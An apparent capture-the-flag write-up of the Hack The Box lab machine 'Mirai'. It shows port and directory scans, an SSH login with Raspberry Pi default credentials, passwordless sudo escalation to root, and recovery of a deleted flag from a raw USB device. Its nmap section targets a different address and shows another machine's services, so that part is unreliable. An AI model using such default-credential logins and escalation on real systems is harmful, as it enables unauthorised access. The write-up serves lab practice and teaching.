

# HTB - Mirai   10.10.10.48

- Debian GNU/Linux 8
- Linux  3.16.0-4-686-pae #1 SMP Debian 3.16.36-1+deb8u2 (2016-10-19) i686 GNU/Linux

- ssh default credentials : pi raspberry
- sudo ALL
- recover deleted file by cat /dev/sdb


## nmap

```
# nmap -sC -sV -A  10.10.10.37
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-09 19:45 CEST
Nmap scan report for 10.10.10.37
Host is up (0.031s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos

```

## dirb

```
# dirb http://10.10.10.48

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep 12 20:31:00 2019
URL_BASE: http://10.10.10.48/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.48/ ----
==> DIRECTORY: http://10.10.10.48/admin/         
```

## 80: http://10.10.10.48/admin/  




## 22 : ssh default raspberry pi redencials

```
# ssh pi@10.10.10.48      ---- passwd: raspberry
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ECDSA key fingerprint is SHA256:UkDz3Z1kWt2O5g2GRlullQ3UY/cVIx/oXtiqLPXiXMY.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.48' (ECDSA) to the list of known hosts.
pi@10.10.10.48's password: 

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

$ cat /home/pi/Desktop/user.txt
XXXXXXXXXXXXXXXXXXXX
```

### sudo

```
$ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
    
# sudo su -

pi@raspberrypi:~ $ sudo cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

### usbstick

```
# mount
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /run type tmpfs (rw,nosuid,relatime,size=102408k,mode=755)
/dev/sda1 on /lib/live/mount/persistence/sda1 type iso9660 (ro,noatime)
/dev/loop0 on /lib/live/mount/rootfs/filesystem.squashfs type squashfs (ro,noatime)
tmpfs on /lib/live/mount/overlay type tmpfs (rw,relatime)
/dev/sda2 on /lib/live/mount/persistence/sda2 type ext4 (rw,noatime,data=ordered)
...
/dev/sdb on /media/usbstick type ext4 (ro,nosuid,nodev,noexec,relatime,data=ordered)
....

# cat /media/usbstick/damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James

root@raspberrypi:~# ls -al /dev/sdb
brw-rw---- 1 root disk 8, 16 Sep 12 17:39 /dev/sdb


root@raspberrypi:~# cat /dev/sdb

(Z"�	  ΂z]΂z]��S��1�Y
                        �<Byc[��B)�>r &�</media/usbstick�yZ�.Gu���m^��>
                                                                       �1�Y
�|*,.�����}+-��Ո     	 
 
  
             � ������������������������������������������������������������������������������������������������������������������������
       .
        ..
          $
lost+found
�        root.txt
damnit.txt

          .�..


       .
        ..
          $
lost+found
�        root.txt
damnit.txt�1�Y�1�Y�1�Y�A�2�Y�4�Y�4�Y
�n��0�1�Y�1�Y�1�Y�{���1�Y�1�Y�1�Y
�|
(Y"�	  �4�Y�4�Y��S��1�Y
                          �<Fyc[��B)�>r &�</media/usbstick�yZ�.Gu���m^��>
                                                                         �1�Y
�|���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������*,.�����O+-��Ո�A0�1�Y�1�Y�1�Y
�
 o��!:2�Y:2�Y:2�Y
�* �!9����2�Y�2�Y�2�Y
��!9��1�Y�1�Y�1�Y�A�2�Y�2�Y�2�Y
�n��0�1�Y�1�Y�1�Y�{���1�Y�1�Y�1�Y
�|
  .
   ..

lost+found
�        root.txt
damnit.txt�;9�Y�2�8Ho��;9�+/
������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������*,.�����O+-���t�A0�1�Y�1�Y�1�Y
�
 o��!:2�Y:2�Y:2�Y
�* �!9�����2�Y�2�Y�2�Y
�+ �!9��;9�Y�3
              8PP


(["�	  �1�Y��S��1�Y
                      �<Byc[��B)�>r &�<�yZ�.Gu���m^��>
                                                      �1�Y
�|}*,.������+-���XXXXXXXXXXXXXXXXXXXXXXxx
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
root@raspberrypi:~# 


# cat /etc/issue
Debian GNU/Linux 8 \n \l

root@raspberrypi:~# uname -a
Linux raspberrypi 3.16.0-4-686-pae #1 SMP Debian 3.16.36-1+deb8u2 (2016-10-19) i686 GNU/Linux

```
